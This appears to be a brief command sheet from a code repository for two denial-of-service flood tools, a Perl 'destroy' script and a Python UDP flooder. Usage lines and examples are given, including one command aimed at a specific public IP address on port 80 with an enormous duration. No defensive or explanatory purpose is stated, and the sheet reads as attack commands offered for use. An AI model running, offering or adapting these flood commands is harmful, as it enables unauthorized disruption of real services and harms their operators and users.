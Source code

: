 # Commands
$ Destroy 

perl destroy.pl 76.223.105.230 80 65500 50000000000
Usage: destroy <ip> <port> <time>
Example: destroy 1.1.1.1 80 60

$ UDP
python2 udp.py {ip} {port} 0 0
Usage: udp <ip> <port>
Example: udp 1.1.1.1 80

